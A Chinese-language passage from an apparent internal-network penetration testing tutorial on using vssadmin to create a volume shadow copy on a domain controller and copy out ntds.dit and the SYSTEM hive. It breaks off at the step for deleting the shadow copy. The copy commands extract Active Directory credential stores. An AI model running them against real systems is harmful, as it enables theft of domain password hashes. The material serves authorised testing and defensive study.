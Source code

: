 ### vssadmin

vssadmin 是 WIndows Server 2008 和 Win 7 提供的 VSS 管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息 (只能管理系统 Provider 创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序等，在内网渗透测试过程中，我们也可以使用 vssadminn 来提取 ntds.dit 文件，流程如下：  
Step 1：在域控制器中打开命令环境，输入如下命令，创建一个 C 盘的影卷拷贝：

```plain
vssadmin create shadow /for=c:
```

[![](assets/1706090550-531c5a5d3caa761abb2e204a1031ba47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095039-f98df596-ba5a-1.png)  
Step 2:将 NTDS.dit 和 SYSTEM 文件从创建的影卷中复制出来

```plain
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\NTDS\ntds.dit c:\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\SYSTEM
```

[![](assets/1706090550-00be351fc25a5ee31c3f0334741fbadd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095055-030b3a20-ba5b-1.png)  
之后可以在 C 盘中看到成功复制 ntds.dit 文件：  
[![](assets/1706090550-c31eb49ebdd27fb9a6e53e152939c683.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095109-0bb04896-ba5b-1.png)  
Step 3：之后执行以下命令删除影卷信息：
